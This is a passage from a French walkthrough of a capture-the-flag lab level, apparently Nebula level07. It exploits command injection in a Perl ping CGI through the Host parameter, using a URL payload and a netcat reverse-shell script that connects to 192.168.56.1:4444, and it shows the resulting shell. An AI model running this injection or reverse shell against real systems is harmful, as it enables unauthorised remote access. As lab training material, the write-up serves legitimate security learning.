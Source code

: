 Donc le `index.cgi` vu plus tôt sert seulement d'indice. Le vrai script est chez `flag07` :

```perl
level07@nebula:~$ cat /home/flag07/index.cgi 
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
        $host = $_[0];

        print("<html><head><title>Ping results</title></head><body><pre>");

        @output = `ping -c 3 $host 2>&1`;
        foreach $line (@output) { print "$line"; } 

        print("</pre></body></html>");

}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

Il y a de toute évidence une injection de commande via le paramètre `Host`. J'ai tenté une première exécution mais elle n'aboutissait pas, peut être à cause des espaces. J'ai préféré créer un script sur le système pour l'appeler depuis le CGI :

```shellsession
level07@nebula:~$ cat > /tmp/revshell
#!/bin/bash
/bin/nc.traditional -e /bin/bash 192.168.56.1 4444
^C
level07@nebula:~$ chmod 755 /tmp/revshell
```

Pour l'exécuter je coupe la commande avec des `&` :

`http://192.168.56.97:7007/index.cgi?Host=%26/tmp/revshell%26`

Et j'obtiens bien mon reverse shell :

```shellsession
$ ncat -l -p 4444 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:49509.
id
uid=992(flag07) gid=992(flag07) groups=992(flag07)
getflag
You have successfully executed getflag on a target account
^C
```
